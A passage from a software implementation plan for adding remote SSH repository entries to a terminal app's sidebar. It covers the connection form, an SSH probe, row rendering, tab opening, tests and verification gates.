- **Approach:** Replace the direct `AddLocalRepositoryOrFolder` dispatch on "+ Add" with a menu built the way `open_repo_mode_picker_menu` builds one (`repo_mode_model.rs:403-462`): two `MenuItemFields` items wired to `AddLocalRepositoryOrFolder` and a new `AddRemoteRepositoryOrFolder`, anchored at the click position already available in the header-button handler. Add the `AddRemoteRepositoryOrFolder` variant to `action.rs`, its arm in the classification match, and a dispatch arm in `view.rs` that opens the modal (U4).
- **Patterns to follow:** `open_repo_mode_picker_menu` / `toggle_repo_mode_entry_menu`; the repo-mode action block (`action.rs:263-281`) and its classification match (`:1016-1022`); dispatch arms (`view.rs:24154-24162`).
- **Test scenarios:**
  - Covers R1: the add menu builds exactly two items with the local and remote actions (pure item-builder test).
  - The remote action classifies correctly in the action-classification match (no panic, right category).
  - `Test expectation:` menu anchoring and focus verified by manual smoke (U8), not unit-tested — matches the repo-mode plan's deferral of sidebar render tests.
- **Verification:** builds; item-builder unit test green; smoke deferred to U8.

### U4. Remote connection modal (the form)

- **Goal:** A 5-field form modal that validates input, emits a submit event carrying the connection, and renders a probing/failure lifecycle so it stays open while U5 probes and reopens with a reason on failure; mounted on `Workspace`.
- **Requirements:** R2, R3 (path field; the *remote path*'s `~` expands server-side in U5), R7 (stays open on failure).
- **Dependencies:** U3.
- **Files:** `app/src/workspace/view/remote_connection_modal.rs` (new), `app/src/workspace/view/remote_connection_modal_tests.rs` (new), `app/src/workspace/view.rs`.
- **Approach:** Body view with five `EditorView::single_line` fields (server, port, user, identity file, path), placeholders matching supacode's copy ("Defaults to 22.", "Defaults to your SSH config." → adapted to "Required" since no ssh config here). Compute validation in `render()`: server/user/path non-empty, port numeric or blank (blank → 22), identity file exists on disk **after local `~`/`$HOME` expansion** — the identity is a local private-key path consumed by `ssh -i`, so its `~` resolves client-side here; only the *remote path*'s `~` resolves server-side in U5. Disable submit until valid; show a per-field error via `theme.ui_error_color()`. Model a small view state `enum { Editing, Probing, Failed(reason) }`: submit transitions `Editing → Probing` (fields + submit disabled, spinner shown) and emits `RemoteConnectionModalEvent::Submit { server, port, user, identity, path }`; U5 drives the modal back to `Failed(reason)` (fields re-enabled, reason banner) or closes it on success (R7). A **cancel-during-probe guard**: closing/cancelling while `Probing` tears the modal down, and the late U5 probe callback carries an in-flight token (or checks the weak handle) so a resolve arriving after teardown is a no-op — it must not resurrect the modal or mutate a dropped view. Mount on `Workspace` mirroring `new_worktree_modal`: `ModalViewState<Modal<RemoteConnectionModal>>` field, `build_remote_connection_modal(ctx)`, open from the U3 action arm, render in the workspace stack, `handle_remote_connection_modal_body_event`. A `prefill`/reset before reopen clears stale state. Reuse existing `ActionButtonTheme` impls unchanged.
- **Execution note:** the modal owns input collection, validation, and the probing/failure *visual* lifecycle; the network probe and persistence live in U5 so the form has no direct network dependency and its validation + state transitions are unit-testable by driving the state enum directly.
- **Patterns to follow:** `app/src/tab_configs/new_worktree_modal.rs` (body view, field construction `:179-193`, validation in render `:312-322,493-507`, submit event `:276`); `app/src/settings_view/custom_inference_modal.rs` (5 fields, per-field error, `prefill` `:303`); workspace mounting (`view.rs:1117,2180-2213,3115,3518,27415-27417,10887-10914`).
- **Test scenarios:**
  - Covers R2: submit is disabled when server, user, or path is empty; enabled when all required fields valid.
  - Port validation: blank port is valid (treated as 22); non-numeric port shows an error and disables submit; numeric port is accepted.
  - Identity file: a `~`-prefixed identity resolves against `$HOME` and validates when the expanded path exists; a non-existent identity path shows an error; an existing absolute one clears it.
  - Covers R7: driving `Editing → Probing` disables submit and keeps the modal open; a `Failed(reason)` transition re-enables the fields and shows the reason without closing.
  - Cancel-during-probe: cancelling in `Probing` then delivering a late resolve is a no-op — no panic, no reopened modal (state assertion on the guard token).
  - Submit event carries all five field values as entered.
- **Verification:** `remote_connection_modal_tests.rs` green under `App::test`.

### U5. SSH probe, pending-row resolution, and reprobe

- **Goal:** On submit, probe the host under a timeout; classify and read branch; on success persist and resolve the row; on failure keep the modal open with the reason. Reprobe on select.
- **Requirements:** R6, R7, R8, R9, R11; produces the data R10 renders.
- **Dependencies:** U1, U2, U4.
- **Files:** `app/src/workspace/view/repo_mode_model.rs` (+ tests).
- **Approach:** On the modal submit event, format the remote key (U1), upsert a pending entry (U2) so the row appears immediately (R9), and `ctx.spawn` the probe. Build the probe as an **argv, never a shell string**: `ssh -i <identity> -p <port> -o BatchMode=yes -o ConnectTimeout=<n> -- <user>@<host>`, and pipe the probe script to the remote `bash -s` **over stdin via `run_ssh_script`** (`crates/remote_server/src/ssh.rs:164`) rather than appending a quoted trailing remote command — this avoids client-side remote-arg escaping and keeps the ssh line a single positional destination (KTD6, A2). The `--` guard means a `<user>@<host>` beginning with `-` is a destination, not an ssh option (KTD10). The probe script resolves the *remote path*'s `~`, tests existence, classifies git-or-folder, and echoes the branch when git — one round-trip (R3+R8). Wrap the whole call in `.with_timeout(Duration)`. **Host-key policy:** reuse Warp's existing ssh-transport host-key handling; **never** downgrade to `StrictHostKeyChecking=no`/blanket `accept-new` to make an add-time probe pass — an unknown host key is a surfaced failure the user clears by connecting once by hand first (KTD6, S2). **Failure-reason mapping:** because `BatchMode=yes` turns any password/passphrase or host-key prompt into a non-zero exit, classify exit code + stderr into {unreachable/timeout, needs-first-hand-connect (auth/host-key), path-not-found} for the modal banner instead of a generic "failed" (KTD6, A3). The spawn callback: on success, write kind/branch into the ephemeral probe cache, mark the entry resolved, close the modal; on failure or `TimeoutError`, drop the pending entry and drive the modal to `Failed(reason)` (R6/R7/AE3), honoring U4's in-flight guard if the modal was cancelled meanwhile. Cache is never persisted (R11). `select_repo_mode_entry` triggers a reprobe for remote entries. No telemetry event is emitted — the candidate `remote_probe_outcome` event was dropped (SG1 resolved), so this unit does not touch `events.rs`.
- **Execution note:** start from a failing test of the probe-result parser (given canned `bash -s` stdout, produce kind + branch) and the reason-mapper (given canned exit/stderr, produce the banner reason), then wire the spawn — the parser and reason-mapper are the parts worth pinning; the spawn/timeout/transport wiring is verified by smoke.
- **Patterns to follow:** spawn+timeout+state-update (`app/src/terminal/input.rs:4286-4322`); `run_ssh_script` over stdin and async `ssh` Command (`crates/remote_server/src/ssh.rs:164,140`, `app/src/remote_server/ssh_transport.rs:241-247`); `with_timeout` (`crates/warpui_core/src/async/mod.rs:114`).
- **Test scenarios:**
  - Covers R8/AE4: probe-result parser given git stdout yields repository + branch; given plain-directory stdout yields folder + no branch.
  - Parser given empty/error stdout yields an unreachable/failed result.
  - Reason mapping (KTD6/A3): a stubbed timeout maps to unreachable/timeout; a stubbed `BatchMode` non-zero auth/host-key exit maps to needs-first-hand-connect; a path-not-found result maps to path-not-found — the modal shows the specific reason, not a generic "failed". *Amended 2026-07-28: all three reasons do reach the modal, but path-not-found is not produced by the classifier. `classify_probe_failure` keys on stderr alone — its `_exit_code` parameter is accepted and ignored, so the signature over-promises — and `PathNotFound` arrives separately, from the probe script printing `missing`. That split is fine (the script knows what the exit code cannot), but the classifier should drop the dead parameter. Also flagged, not amended away: the classifier maps "remote host identification has changed" to needs-first-hand-connect, whose message reads "the host key is unknown or the key is locked" — a changed host key is the canonical MITM signal and deserves its own reason, per this KTD's own host-key policy.*
  - Probe command shape (KTD6/KTD10): the constructed argv places `--` before `<user>@<host>`, carries only `-i`/`-p`/`-o` options, and pipes its script over stdin — a `<user>` or `<host>` starting with `-` never becomes an ssh option, and no quoted remote command is appended.
  - Covers R9: on submit, the pending entry is inserted before the probe resolves (state assertion, probe stubbed).
  - Covers R6/R7/AE3: a stubbed timeout drops the pending entry and leaves the modal open with a reason; a stubbed auth failure does likewise.
  - Reprobe: selecting a resolved remote entry re-enters the probe path (call recorded).
- **Verification:** parser + reason-mapper + state unit tests green under `override_enabled`; real host smoke in U8.

### U6. Sidebar rendering for remote rows

- **Goal:** A remote row is visually distinct, shows the host, renders pending/repository/folder/unreachable states, and never reads the local filesystem for branch or liveness.
- **Requirements:** R10, R8 (branch display when repo), R9 (pending), R11 (no fs probe).
- **Dependencies:** U1, U2. Parallel with U5 (consumes the cache U5 fills; renders pending until then).
- **Files:** `app/src/workspace/view/repo_sidebar.rs` (+ any pure row-builder helper it factors out).
- **Approach:** In row rendering, branch on remote vs local. For remote: show a distinct indicator (a remote/wifi-style icon consistent with theme tokens) and the `user@host` (or host) as the secondary label (R10); take kind and branch from the probe cache, not `.git/HEAD`; render a pending affordance while the cache is empty (R9) and a dimmed/unreachable state when the last probe failed (R11 — no background recheck). When the last probe failed, **surface the mapped reason** (from U5's reason-mapper) as the row's hover tooltip so the dimmed state is diagnosable without reopening the form. **Truncate a long `user@host` (or path leaf) label** with a middle/tail ellipsis and put the full value in the tooltip, so a long identity/host does not blow out the sidebar width. Do not call `is_dead_path` for remote keys.
- **Patterns to follow:** existing row rendering and `render_header_button` in `repo_sidebar.rs`; the branch read to bypass (`repo_sidebar.rs:518`); theme-token / icon / tooltip / text-truncation usage already in the sidebar.
- **Test scenarios:**
  - Row-state helper (pure, if factored): given a resolved-repo cache entry → repo label + branch; folder cache entry → folder label, no branch (AE4); empty cache → pending; failed cache → unreachable/dimmed with the mapped reason as tooltip text.
  - Label truncation (pure): a `user@host` longer than the row budget truncates with an ellipsis and preserves the full value as the tooltip; a short label is unchanged and gets no truncation.
  - Covers R10: a remote row's secondary label carries the host; a local row's does not.
  - `Test expectation:` visual distinctness and icon rendering verified by manual smoke (U8) — matches the repo-mode plan's deferral of sidebar render tests.
- **Verification:** row-state + truncation unit tests green; visual smoke in U8.

### U7. Open a remote tab: connect and land in the path

- **Goal:** Selecting a remote entry opens a warpified `ssh` tab bound to the entry's group and, once the remote shell is ready, in the entry's path. Hand-typed `ssh` tabs stay ungrouped.
- **Requirements:** R12, R13, R14, R15.
- **Dependencies:** U1, U2. Follows U5 (entry resolved) but does not require the probe to succeed to open.
- **Files:** `app/src/workspace/view/repo_mode_model.rs` (+ tests).
- **Approach:** Extend the entry-open path so a remote key routes to a remote open: reuse `create_repo_mode_group_with_tab` with `repo_root` = the remote key to create/reuse the bound `TabGroup` and set `group_id` (KTD8, R14). Then run the interactive `ssh -i <identity> -p <port> -- <user>@<host>` line via the subshell/insert-and-bootstrap path (`insert_subshell_command_and_bootstrap_if_supported` / `open_new_tab_insert_subshell_command_and_bootstrap_if_supported`, `app/src/terminal/view.rs:25163`, `app/src/root_view.rs:1167`). The line is a **single positional destination with option flags only** — `-i`/`-p` are getopts options and `--` fences the destination — so the ssh wrapper warpifies it (R13); the identity path is **shell-quoted** so a space in it does not split into a second positional and silently disable warpification (KTD10, `bash_body.sh:998`). To land in the path (R12) **without appending anything to the ssh line**, subscribe **once** to `DetectedEndOfSshLogin(SshLoginStatus::ReadyToWarpify)` on the pane's `ModelEventDispatcher` (`app/src/terminal/model_events.rs:437-472`); when it fires, run `cd <shell-quoted remote-path>` in the now-warpified remote shell and drop the subscription. The pending-command queue is **not** used — it drains on the local shell before ssh connects (KTD7). No telemetry event is emitted (SG1 resolved — dropped). R15 needs no code: only this path assigns a `group_id`.
- **Execution note:** the `ReadyToWarpify` subscription is the primary design, not a fallback — KTD7 already rejected the local-draining queue. Smoke confirms (OQ1, now a confirmation) that the subscription fires once per remote open and the `cd` lands in the remote shell. Guard the subscription so it fires exactly once and is dropped if the tab closes before the shell warpifies.
- **Patterns to follow:** `create_repo_mode_group_with_tab` (`repo_mode_model.rs:321-369`); one-shot readiness subscription on `DetectedEndOfSshLogin(ReadyToWarpify)` (`terminal/model_events.rs:437-472`, consumer at `workspace/view.rs:25639`); subshell insert + auto-bootstrap (`terminal/view.rs:25163`, `root_view.rs:1167-1195`); `shell_quote` helper from U1.
- **Test scenarios:**
  - Covers R14: opening a remote entry creates/reuses a `TabGroup` whose `repo_root` equals the remote key and assigns the new tab's `group_id`.
  - Covers R15: a tab created outside the entry-open path has no `group_id` and lists under "All"/"Other tabs" (state assertion).
  - The ssh line built for a given entry is a single positional destination with `-i`/`-p` options and a `--` fence, no trailing remote command, and a shell-quoted identity (unit assertion on the constructed argv/string).
  - The `cd` command built for landing is `cd <shell-quoted remote-path>` (unit assertion; a remote path with a space stays one argument).
  - `Test expectation:` end-to-end warpification, the once-firing `ReadyToWarpify` subscription, and the remote `cd` are verified by manual smoke against a real host (U8) — the pty/bootstrap/event path is not unit-reachable.
- **Verification:** group-binding and command-construction unit tests green; end-to-end smoke in U8.

### U8. Flag-off parity, glue audit, and manual smoke

- **Goal:** Prove flag-off parity, that the diff stays inside the glue inventory (no `events.rs`, no migration), and that the end-to-end remote flow works against a real host.
- **Requirements:** R16, R17, R18; AE3, AE5, AE6, AE7, AE8.
- **Dependencies:** U1–U7.
- **Files:** no new source; a documented manual smoke checklist in the PR/commit description.
- **Approach:** Confirm every remote entry point is inside repo-mode-gated code so a flag-off build shows no remote affordance (R16/AE7 — build with `repo_mode` removed from `default`). Confirm Open Folder in IDE still disables on the remote tab (R17/AE8 — no change expected, verify). Run the glue audit: the diff touches upstream files only at this plan's inventory plus the repo-mode plan's R9 inventory, contains **no `app/src/server/telemetry/events.rs` edit** (SG1 dropped), and adds no migration.
- **Test scenarios (manual smoke, recorded in the PR):**
  - Add a real host: form → probe resolves → row shows repo + branch (or folder). Covers F1/R8/R10.
  - Unreachable host: probe times out, form stays open, no row left. Covers AE3.
  - Open the entry: tab connects, warpifies, lands in the path; prompt/blocks behave like a hand-typed ssh session. Covers R12/R13/AE5, and confirms OQ1.
  - Hand-type `ssh` to the same host: that tab is ungrouped. Covers R15/AE6.
  - Restart: entry restores from registry, pending until used, no probe on launch. Covers R5/R11/F4.
  - Flag-off build: no remote affordance anywhere; Open Folder in IDE unaffected. Covers AE7/AE8/R16/R17.
- **Verification:** `./script/presubmit` green; recorded smoke checklist passes; glue audit clean.

---

## Verification Contract

| Gate | Command / check | Applies to |
|---|---|---|
| Domain unit tests | `cargo nextest run -p repo_mode` | U1 |
| App unit tests | app view/model tests under `override_enabled(FeatureFlag::RepoMode)` (`cargo nextest run -p <app-package> -E 'test(remote)'`) | U2, U3, U4, U5, U6, U7 |
| Format + clippy | `./script/format`; `cargo clippy --workspace --all-targets --all-features --tests -- -D warnings` | all units |
| Presubmit | `./script/presubmit` | all units |
| Flag-off parity | build with `repo_mode` removed from `default`: compiles and shows no remote affordance; Open Folder in IDE unaffected | U8, every unit boundary |
| Manual smoke | `cargo run` against a real SSH host: add, probe-fail, open+warpify+cd, hand-typed-ssh-ungrouped, restart | U5, U7, U8 |
| Glue + no-migration audit | diff touches upstream files only at this plan's + the repo-mode plan's inventories; no `crates/persistence/migrations/` addition; no `crates/warp_features` / `app/src/features.rs` edit | before declaring done |

Integration tests are deferred, matching the repo-mode plan: the remote open and bootstrap path is not reachable in the integration harness without a live host, so it is proven by recorded manual smoke rather than a `crates/integration` test. Revisit if the flow regresses.

## Definition of Done

- Acceptance examples AE1–AE8 pass by unit test or recorded manual smoke (AE5/AE6 are smoke-only per the pty/bootstrap constraint).
- `./script/presubmit` green.
- Flag-off build verified behaviorally identical to stock Warp (AE7), and Open Folder in IDE still disabled on remote sessions (AE8).
- No new persistence migration exists and no feature-flag/cargo-feature edit was needed (KTD1/KTD9); if either became necessary, KTD1/KTD9 were amended with the reason.
- SG1 resolved: the two candidate telemetry events are dropped, so `app/src/server/telemetry/events.rs` is untouched in the diff. *Amended 2026-07-28: true of this feature — no remote telemetry event exists — but false as a literal check on the branch diff, which does edit `events.rs` to add `OpenedFolderInIde` from the sibling open-folder plan. Restate the gate as "no remote-driven `events.rs` edit"; a plain `git diff --stat | grep events.rs` will not clear it.*
- Glue audit passes: upstream-file edits limited to this plan's inventory plus the repo-mode plan's R9 inventory; the combined inventory is listed in the PR/commit description for future rebases.
- OQ1 confirmed during smoke: the one-shot `ReadyToWarpify` subscription fires once per remote open and the `cd` lands in the remote warpified shell (KTD7 design, not a fallback).
- No abandoned or experimental code from dead-end approaches remains in the diff.

---

## Open Questions

SG1 is resolved; OQ1/OQ2 are non-blocking execution-time unknowns confirmed during implementation/smoke:

- **SG1 (resolved — dropped).** The two candidate telemetry events (`remote_probe_outcome`, open-remote) are **not implemented**. Rationale: this is a single-user patched build with no downstream telemetry consumer, so the events would add an `events.rs` edit that widens the rebase surface against upstream (core R18) for zero payoff. U5/U7/U8 and the glue inventory reflect the drop — no `app/src/server/telemetry/events.rs` edit. If this feature is ever prepared for upstream, revisit: the three-edit `events.rs` shape with UGC-safe fields (no host/user/path/identity) is the pattern to restore.
- OQ1 (confirm in smoke, not a design fork). The one-shot `DetectedEndOfSshLogin(ReadyToWarpify)` subscription is KTD7's committed design — the local-draining pending-command queue was considered and rejected. Smoke confirms the subscription fires exactly once per remote open and the `cd` lands in the *remote* warpified shell (not the local shell before `ssh` connects). If smoke somehow shows it misfiring, the adjacent `AnsiHandlerEvent::Bootstrapped` signal on the same `ModelEventDispatcher` is the alternative, amending KTD7.
- OQ2 (deferred). Does the add-time probe reuse an existing ControlMaster socket or open its own connection, and what happens when a tab for the same host opens moments later? Default: the probe opens its own short-lived connection (`BatchMode`, `ConnectTimeout`) independent of any tab. The `warpify.ssh.reuse_existing_control_master` setting (`app/src/settings/ssh.rs`) is the precedent if reuse is later wanted.

---

## Sources / Research

- Origin: this file's Product Contract (brainstorm, confirmed). Builds on `docs/plans/2026-07-19-001-feat-repo-mode-sidebar-plan.md` (registry, section, group binding, R9 glue inventory).
- Registry: `app/src/projects.rs:56-112` (`upsert_project` canonicalizes — KTD3), `projects` table (`crates/persistence/src/schema.rs:337`); `HostId` runtime-only (`crates/warp_util/src/host_id.rs:11`).
- Domain to extend: `crates/repo_mode/src/entry.rs` (+ `entry_tests.rs`); repo-mode list/select/open in `app/src/workspace/view/repo_mode_model.rs` (`create_repo_mode_group_with_tab:321-369`, menu reuse `:403-462`, cwd partition `:526`).
- Add menu / sidebar: `app/src/workspace/view/repo_sidebar.rs` (`render_header_button`, branch read `:518`); actions `app/src/workspace/action.rs:263-281,1016-1022`; dispatch `app/src/workspace/view.rs:24154-24162`.
- Modal precedent: `app/src/tab_configs/new_worktree_modal.rs` (field construction `:179-193`, validation `:312-322,493-507`, submit event `:276`); `app/src/settings_view/custom_inference_modal.rs` (5 fields, per-field error, `prefill:303`); workspace mounting `app/src/workspace/view.rs:1117,2180-2213,27415-27417,10887-10914`; single gui-ui-guideline (reuse button themes) `.claude/skills/gui-ui-guidelines/SKILL.md`.
- SSH probe: async `ssh` Command `app/src/remote_server/ssh_transport.rs:241-247`, `crates/remote_server/src/ssh.rs:134,140` (BatchMode/`PasswordAuthentication=no` `:39`); spawn+timeout `crates/warpui_core/src/async/mod.rs:114`, representative caller `app/src/terminal/input.rs:4286-4322`.
- Tab launch + landing: subshell insert + auto-bootstrap `app/src/terminal/view.rs:25163`, `app/src/root_view.rs:1167-1195`; landing via one-shot readiness subscription `app/src/terminal/model_events.rs:437-472` (consumed at `app/src/workspace/view.rs:25639`), `app/src/terminal/writeable_pty/remote_server_controller.rs:94-101`; warpify constraints `app/assets/bundled/bootstrap/bash_body.sh:969-1165`; pending-command queue `app/src/terminal/view.rs:9358` (rejected precedent — drains on local shell, KTD7).
- Remote types: `crates/warp_util/src/remote_path.rs`, `crates/repo_metadata/src/repository_identifier.rs:9`; Open Folder in IDE remote-disable precedent `app/src/workspace/view/open_folder.rs:33-51`.
- Flag shape: `FeatureFlag::RepoMode` reuse (`crates/warp_features/src/lib.rs:868`, `app/src/features.rs:448`). Telemetry precedent (not used — SG1 dropped): `app/src/server/telemetry/events.rs` three-edit pattern + `send_telemetry_from_ctx!`, the pattern to restore if this is ever prepared for upstream.
- Tests: `.claude/skills/rust-unit-tests` (sibling `*_tests.rs`, `App::test`, `override_enabled`), `.claude/skills/fix-errors` (`./script/presubmit`), `.claude/skills/gui-integration-test` (deferred here).
- UI reference: supacode `Connect to Remote Host` form (Server/Port/User/Path) and self-describing remote id; user screenshots of the add menu and form.
